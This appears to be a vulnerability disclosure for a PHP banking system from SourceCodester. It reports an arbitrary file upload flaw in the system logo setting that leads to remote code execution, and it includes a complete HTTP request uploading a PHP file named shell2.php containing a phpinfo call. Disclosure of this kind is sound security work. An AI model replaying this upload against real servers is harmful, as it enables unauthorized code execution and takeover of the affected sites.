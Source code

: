 ## Banking-system v1.0 by oretnom23 has arbitrary code execution (RCE)

vendor: https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html

Vulnerability url: http://ip/banking/admin/?page=system_info 

Loophole location： Arbitrary file upload vulnerability exists in syetem logo upload point in system info (RCE)

Request package for file upload：

```sql
POST /banking/classes/SystemSettings.php?f=update_settings HTTP/1.1
Host: 192.168.1.19
Content-Length: 840
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypYBMtJHzCdmOJB9I
Origin: http://192.168.1.19
Referer: http://192.168.1.19/banking/admin/?page=system_info
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=v8g2iaa0tsnt5b01btt83eb7qo
Connection: close

------WebKitFormBoundarypYBMtJHzCdmOJB9I
Content-Disposition: form-data; name="name"

Online Banking System
------WebKitFormBoundarypYBMtJHzCdmOJB9I
Content-Disposition: form-data; name="short_name"

OBS
------WebKitFormBoundarypYBMtJHzCdmOJB9I
Content-Disposition: form-data; name="about_us"

<p>Sample About Us</p>
------WebKitFormBoundarypYBMtJHzCdmOJB9I
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarypYBMtJHzCdmOJB9I
Content-Disposition: form-data; name="img"; filename="shell2.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
------WebKitFormBoundarypYBMtJHzCdmOJB9I
Content-Disposition: form-data; name="cover"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarypYBMtJHzCdmOJB9I--

```

The files will be uploaded to this directory\ banking\ uploads\

![image](https://user-images.githubusercontent.com/54017627/161220332-234c40d6-e927-4617-8ace-caa0df8176e6.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/161220453-28a8a626-80d6-4582-8373-69aa05d2c7cc.png)
